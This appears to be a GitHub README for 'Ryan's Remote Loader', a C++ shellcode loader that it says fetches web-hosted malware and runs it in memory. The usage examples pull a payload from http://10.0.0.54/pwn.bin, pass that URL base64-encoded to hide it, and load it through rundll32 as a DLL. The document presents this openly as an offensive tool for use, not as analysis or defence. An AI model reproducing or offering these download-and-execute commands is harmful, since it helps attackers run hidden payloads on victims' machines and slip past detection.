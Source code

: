 # Ryan's Remote Loader

Custom shellcode loader written in C++. This will grab your web hosted malware and run it in memory.

This project is password protected at this time.

## Examples:
RRL.exe will take the remote bin file as a parameter like:
`RRL.exe http://10.0.0.54/pwn.bin`

RRL.exe can also take b64 encoded payloads:
`RRL.exe -enc aHR0cDovLzEwLjAuMC41NC9wd24uYmluCg==`


This can also be run as a DLL like the following: 
`rundll32.exe RRLDLL.dll,Driver aHR0cDovLzEwLjAuMC41NC9wd24uYmluCg==`